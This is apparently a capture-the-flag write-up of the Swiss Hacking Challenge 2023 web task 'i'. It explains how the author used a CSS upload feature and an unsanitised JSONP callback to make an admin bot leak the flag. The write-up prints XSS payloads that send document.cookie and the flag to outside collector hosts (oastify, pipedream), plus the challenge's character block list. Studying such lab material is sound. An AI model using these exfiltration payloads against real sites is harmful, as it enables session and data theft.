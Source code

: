 # Swiss Hacking challenge 2023 -  i - Web

## Description

"i" is another web challenge. You are given a platform, to upload your CSS style, and share it with the admin. Sounds like XSS!
)
You are also provided with [source code](https://github.com/eqqn/eqqn.github.io/blob/master/uploads/i.zip)

This time you can freely register a user. The source code indicates a bot, which opens the share link provided.

![free hats ](https://eqqn.github.io/images/shc_i_freehat.JPG)

### Initial attempt 

Intially I got lucky early and found good XSS primitive within a few minutes, but afterwards started getting stuck. 

``` css
body{
  background-image: url(hxxp://myburpsuite-endpointxyz.oastify.com);
  }
```

Css even allows to interpolate strings with ${variable}.

This was triggering out-of band requests from my browser, but not the bot. I could retrieve my own JWT with the string
``` css
background-image: url(hxxp://myburpsuite-endpointxyz.oastify.com/${document.cookie});
``` 

## Code analysis

After digging into the code, I noted the constraints imposed by sanitization of URLs and CSS body in `app.js`

``` python
    if request.method == "POST" and url:
        if "&&" in url or ";" in url or "|" in url or "(" in url or "{" in url:
            return "No free hats for you >:("
        if url.startswith("/share?"):
            subprocess.run(["node", "bot.js", url], shell=False)
```

safeview.js , which is the share page, has more restrictions. It didn't seem like my initial payload would get caught, 
and the sanitizations were not performed recursively

``` javascript
function escape(data) {
    var nopes = ["`", "+", "<", ">", "'", '"', "%"]
    var x = data
    nopes.forEach(noperino => {
        x = x.replaceAll(noperino, '');
    });
    x = x.replaceAll(/script/ig, '');
    x = x.replaceAll(/iframe/ig, '');
    return x
}
```

## the interesting bit 

I noticed additional argument in the share URL - a callback.
``` javascript
var data = document.createElement('script');
src = '/get_style?share_id=' + shareId
if (callback) {
    var src = '/get_style?share_id=' + shareId + "&callback=" + escape(callback)
}
```

Digging deeper into what kind of callback this is 

``` python
    callback = request.args.get('callback', 'updateStyle')
    if share_id:
        style = db.getStyleByShareId(share_id)
    else:
        user = db.getUserbyId(token["id"])
        style = user["style"]

    data = '{funcname}(`{data}`)'.format(
        funcname=callback,
        data=style,
    )
```

The callback default argument is "updateStyle", which calls the function. However, we can specify arbitrary callback function,
and it will take the supplied data as input. 

By putting "fetch()" call in the callback and testing it in the browser, I noted it failed to get `body{background-image: url} `
So I cleaned it up to contain only URL. 

`fetch` is gonna get blocked by CORS, so we need another javascript function that takes arbitrary URL as argument and makes a call. 
After looking around for other XSS manuals, I found `open()`.

## solution

By including a simple URL as the CSS to send to admin, and triggering the callback, we can extract the flag

`hxxps://eo8tkgldaXXXX.m.pipedream.net/${flag.value}`

And send the share with the callback URL to the "admin" :

`/share?share_id=0718b98ab524698450e410e2e60618&callback=open`

![flag](https://eqqn.github.io/images/shc_i_callback.JPG)


### Summary 

The organizers did a great job at creating fun challenges. In the end I ranked 27/87 in the open category, 
and 56/178 in combined ranking, although I only invested myself mostly into web challenges, as I want to improve my code review skills. 
The long duration was generous, as there was also Insomnihack during the competition period. 

PS: This was perhaps not the intended solution, which was CSS selectors. Other players have also discovered various bypasses. 
It never ceases to amaze me how different thought proccess and approaches are.
